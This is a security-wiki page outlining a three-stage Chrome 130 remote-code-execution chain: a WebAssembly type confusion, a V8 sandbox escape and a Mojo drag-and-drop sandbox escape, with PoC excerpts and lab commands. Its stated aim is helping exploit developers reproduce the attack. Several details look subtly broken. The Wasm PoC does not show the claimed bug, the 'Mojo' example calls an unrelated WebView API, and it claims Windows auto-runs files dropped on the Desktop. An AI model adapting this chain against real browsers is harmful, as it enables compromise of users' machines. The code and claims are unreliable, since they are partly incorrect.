 # Chrome Exploiting

{{#include ../banners/hacktricks-training.md}}

> This page provides a high-level yet **practical** overview of a modern "full-chain" exploitation workflow against Google Chrome 130 based on the research series **“101 Chrome Exploitation”** (Part-0 — Preface).  
> The goal is to give pentesters and exploit-developers the minimum background necessary to reproduce or adapt the techniques for their own research.

## 1. Chrome Architecture Recap  
Understanding the attack surface requires knowing where code is executed and which sandboxes apply.

```
+-------------------------------------------------------------------------+
|                             Chrome Browser                              |
|                                                                         |
|  +----------------------------+      +-----------------------------+    |
|  |      Renderer Process      |      |    Browser/main Process     |    |
|  |  [No direct OS access]     |      |  [OS access]                |    |
|  |  +----------------------+   |      |                             |    |
|  |  |    V8 Sandbox        |   |      |                             |    |
|  |  |  [JavaScript / Wasm] |   |      |                             |    |
|  |  +----------------------+   |      |                             |    |
|  +----------------------------+      +-----------------------------+    |
|               |           IPC/Mojo              |                       |
|               V                                    |                     |
|  +----------------------------+                   |                     |
|  |        GPU Process         |                   |                     |
|  |  [Restricted OS access]    |                   |                     |
|  +----------------------------+                   |                     |
+-------------------------------------------------------------------------+
```

Layered defence-in-depth:

* **V8 sandbox** (Isolate): memory permissions are restricted to prevent arbitrary read/write from JITed JS / Wasm.
* **Renderer ↔ Browser split** ensured via **Mojo/IPC** message passing; the renderer has *no* native FS/network access.
* **OS sandboxes** further contain each process (Windows Integrity Levels / `seccomp-bpf` / macOS sandbox profiles).

A *remote* attacker therefore needs **three** successive primitives:

1. Memory corruption inside V8 to get **arbitrary RW inside the V8 heap**.
2. A second bug allowing the attacker to **escape the V8 sandbox to full renderer memory**.
3. A final sandbox-escape (often logic rather than memory corruption) to execute code **outside of the Chrome OS sandbox**.

---

## 2. Stage 1 – WebAssembly Type-Confusion (CVE-2025-0291)

A flaw in TurboFan’s **Turboshaft** optimisation mis-classifies **WasmGC reference types** when the value is produced and consumed inside a *single basic block loop*.

Effect:
* The compiler **skips the type-check**, treating a *reference* (`externref/anyref`) as an *int64*.
* Crafted Wasm allows overlapping a JS object header with attacker-controlled data → <code>addrOf()</code> & <code>fakeObj()</code> **AAW / AAR primitives**.

Minimal PoC (excerpt):

```WebAssembly
(module
  (type $t0 (func (param externref) (result externref)))
  (func $f (param $p externref) (result externref)
    (local $l externref)
    block $exit
      loop $loop
        local.get $p      ;; value with real ref-type
        ;; compiler incorrectly re-uses it as int64 in the same block
        br_if $exit       ;; exit condition keeps us single-block
        br   $loop
      end
    end)
  (export "f" (func $f)))
```

Trigger optimisation & spray objects from JS:

```js
const wasmMod = new WebAssembly.Module(bytes);
const wasmInst = new WebAssembly.Instance(wasmMod);
const f = wasmInst.exports.f;

for (let i = 0; i < 1e5; ++i) f({});   // warm-up for JIT

// primitives
let victim   = {m: 13.37};
let fake     = arbitrary_data_backed_typedarray;
let addrVict = addrOf(victim);
```

Outcome: **arbitrary read/write within V8**.

---

## 3. Stage 2 – Escaping the V8 Sandbox (issue 379140430)

When a Wasm function is tier-up-compiled, a **JS ↔ Wasm wrapper** is generated.  A signature-mismatch bug causes the wrapper to write past the end of a trusted **`Tuple2`** object when the Wasm function is re-optimised *while still on the stack*.

Overwriting the 2 × 64-bit fields of the `Tuple2` object yields **read/write on any address inside the Renderer process**, effectively bypassing the V8 sandbox.

Key steps in exploit:
1. Get function into **Tier-Up** state by alternating turbofan/baseline code.
2. Trigger tier-up while keeping a reference on the stack (`Function.prototype.apply`).
3. Use Stage-1 AAR/AAW to find & corrupt the adjacent `Tuple2`.

Wrapper identification:

```js
function wrapperGen(arg) {
  return f(arg);
}
%WasmTierUpFunction(f);          // force tier-up (internals-only flag)
wrapperGen(0x1337n);
```

After corruption we possess a fully-featured **renderer R/W primitive**.

---

## 4. Stage 3 – Renderer → OS Sandbox Escape (CVE-2024-11114)

The **Mojo** IPC interface `blink.mojom.DragService.startDragging()` can be called from the Renderer with *partially trusted* parameters.  By crafting a `DragData` structure pointing to an **arbitrary file path** the renderer convinces the browser to perform a *native* drag-and-drop **outside the renderer sandbox**.

Abusing this we can programmatically “drag” a malicious EXE (previously dropped in a world-writable location) onto the Desktop, where Windows automatically executes certain file-types once dropped.

Example (simplified):

```js
const payloadPath = "C:\\Users\\Public\\explorer.exe";

chrome.webview.postMessage({
  type: "DragStart",
  data: {
    title: "MyFile",
    file_path: payloadPath,
    mime_type: "application/x-msdownload"
  }
});
```

No additional memory corruption is necessary – the **logic flaw** gives us arbitrary file execution with the user’s privileges.

---

## 5. Full Chain Flow

1. **User visits** malicious webpage.
2. **Stage 1**: Wasm module abuses CVE-2025-0291 → V8 heap AAR/AAW.
3. **Stage 2**: Wrapper mismatch corrupts `Tuple2` → escape V8 sandbox.
4. **Stage 3**: `startDragging()` IPC → escape OS sandbox & execute payload.

Result: **Remote Code Execution (RCE)** on the host (Chrome 130, Windows/Linux/macOS).

---

## 6. Lab & Debugging Setup

```bash
# Spin-up local HTTP server w/ PoCs
npm i -g http-server
git clone https://github.com/Petitoto/chromium-exploit-dev
cd chromium-exploit-dev
http-server -p 8000 -c -1

# Windows kernel debugging
"C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\windbgx.exe" -symbolpath srv*C:\symbols*https://msdl.microsoft.com/download/symbols
```

Useful flags when launching a *development* build of Chrome:

```bash
chrome.exe --no-sandbox --disable-gpu --single-process --js-flags="--allow-natives-syntax"
```

---

## Takeaways

* **WebAssembly JIT bugs** remain a reliable entry-point – the type system is still young.
* Obtaining a second memory-corruption bug inside V8 (e.g. wrapper mismatch) greatly simplifies **V8-sandbox escape**.
* Logic-level weaknesses in privileged Mojo IPC interfaces are often sufficient for a **final sandbox escape** – keep an eye on *non-memory* bugs.



## References
* [101 Chrome Exploitation — Part 0 (Preface)](https://opzero.ru/en/press/101-chrome-exploitation-part-0-preface/)
* [Chromium security architecture](https://chromium.org/developers/design-documents/security)
{{#include ../banners/hacktricks-training.md}}
